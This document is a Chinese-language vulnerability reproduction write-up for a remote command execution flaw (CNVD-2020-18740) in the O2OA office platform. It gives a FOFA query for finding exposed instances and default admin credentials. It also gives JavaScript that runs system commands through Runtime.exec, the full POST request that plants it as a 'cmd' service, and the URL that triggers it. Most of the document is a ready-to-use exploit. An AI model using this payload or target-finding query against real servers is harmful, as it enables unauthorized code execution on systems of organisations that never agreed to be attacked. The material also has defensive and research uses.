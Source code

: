 # O2OA invoke 后台远程命令执行漏洞 CNVD-2020-18740

## 漏洞描述

O2OA是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台,集工作汇报、项目协作、移动OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA系统invoke 接口存在远程代码执行漏洞。攻击者可利用漏洞执行任意代码。

## 漏洞影响

```
O2OA
```

## FOFA

```
title=="O2OA"
```

## 漏洞复现

登录页面

![image-20220829102732087](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208291027154.png)

默认密码登录后台 `xadmin/o2`

![image-20220829102745518](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208291027581.png)

在应用中找到服务管理，创建接口代码执行系统命令

```
var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream()));

var result = [];
while (true) {
    var oneline = bufReader.readLine();
    result.push(oneline);
    if (!oneline) break;
}
var result = { "Result": result };
this.response.setBody(result, "application/json"); 
```

![image-20220829102805328](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208291028397.png)

请求包

```
POST /x_program_center/jaxrs/invoke?v=6.3 HTTP/1.1
Authorization: PfyuxmzgIzrrkjVKSmRBJ4uCkH5tYmpq50QnO7mEHhA

{"id":"cmd","name":"cmd","enableToken":false,"alias":"","description":"","validated":true,"enable":true,"text":"var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(\"id\").getInputStream()));\n\nvar result = [];\nwhile (true) {\n    var oneline = bufReader.readLine();\n    result.push(oneline);\n    if (!oneline) break;\n}\nvar result = { \"Result\": result };\nthis.response.setBody(result, \"application/json\"); ","remoteAddrRegex":"","createTime":"2022-08-27 04:39:18","updateTime":"2022-08-27 04:39:18"}
```

![image-20220829102821768](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208291028838.png)

创建成功后访问接口执行系统命令

```
/x_program_center/jaxrs/invoke/cmd/execute
```

![image-20220829102832557](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202208291028615.png)